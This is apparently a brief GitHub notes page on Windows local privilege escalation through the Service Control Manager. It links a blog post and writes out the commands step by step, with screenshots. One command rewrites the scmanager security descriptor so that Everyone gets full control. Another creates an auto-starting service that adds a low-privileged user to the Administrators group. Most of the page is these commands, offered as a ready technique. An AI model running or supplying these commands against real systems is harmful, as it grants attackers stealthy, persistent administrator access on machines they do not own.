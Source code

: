 # L-P-E

### Least/Low/Local (Privilege) Escalation/Elevation

[PrivEsc: Abusing the Service Control Manager for Stealthy &amp; Persistent LPE - 0xv1n](https://0xv1n.github.io/posts/scmanager/)

```sc sdset scmanager D:(A;;KA;;;WD)```

```sc sdshow scmanager```

![image](https://user-images.githubusercontent.com/58542375/224455112-2e22ffed-8a8a-4cf8-b081-10927ddc6856.png)

![image](https://user-images.githubusercontent.com/58542375/224455362-b51a8c4e-463b-4c98-a1ce-7529c8ce1b58.png)

```sc create LPE displayName= "LPE" binPath= "C:\Windows\System32\net.exe localgroup Administrators lowpriv /add" start= auto```

![image](https://user-images.githubusercontent.com/58542375/224455468-3f9c42a4-6477-49c0-bae3-45ba57842782.png)

![image](https://user-images.githubusercontent.com/58542375/224455542-9ae4a98b-8ee4-40af-84c6-78219462e495.png)
